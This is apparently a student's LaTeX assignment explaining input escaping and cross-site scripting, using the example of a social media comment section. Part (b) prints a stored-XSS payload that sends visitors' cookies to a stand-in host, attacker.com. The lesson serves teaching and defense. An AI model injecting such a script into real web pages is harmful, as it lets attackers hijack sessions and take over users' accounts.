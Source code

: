 \documentclass{article}
\begin{document}
\title{WEB-TECNOLOGY ASSINGMENT (1)}
\author{JOHN BWALE}
\date{TODAY}
\maketitle

\textbf{USER INPUT HANDLING AND ESCAPING}

(a) Explain the concepts of input escaping and cross-site scripting (XSS) attacks.

Answer:

Input escaping is a technique used to sanitize and encode user input before displaying it in web pages or processing it in web applications. The purpose of input escaping is to prevent the execution of malicious code embedded in user input, ensuring that the input is treated as data rather than executable code. By escaping characters with special meaning in the target output context (such as HTML, JavaScript, or SQL), the input is rendered harmless and displayed as intended.

Cross-Site Scripting (XSS) attacks occur when an attacker injects malicious scripts into a web application, which are then executed by unsuspecting users viewing the affected page. This attack is possible when user input is not properly sanitized or validated before being displayed. The attacker can exploit vulnerabilities in the application to inject scripts that steal sensitive information, manipulate user interactions, or deface the website.

(b) Provide a detailed example of how an attacker might exploit a web application by injecting malicious scripts through user input.

Answer:

Let's say there is a social media website that allows users to post comments on other users' profiles. The website fails to properly sanitize and validate user input before displaying it. An attacker takes advantage of this vulnerability by injecting a malicious script into a comment.

For example, the attacker submits a comment containing the following script:

\begin{verbatim}
<script>
  // Malicious script to steal user cookies
  document.location = 'http://attacker.com/steal.php?cookie=' + document.cookie;
</script>
\end{verbatim}

When other users view the targeted profile page, the script is executed in their browsers. It redirects them to the attacker's website, passing their cookies as a parameter. The attacker can then capture the cookies and use them to impersonate the victims, access their accounts, or perform other malicious activities.
\end{document}
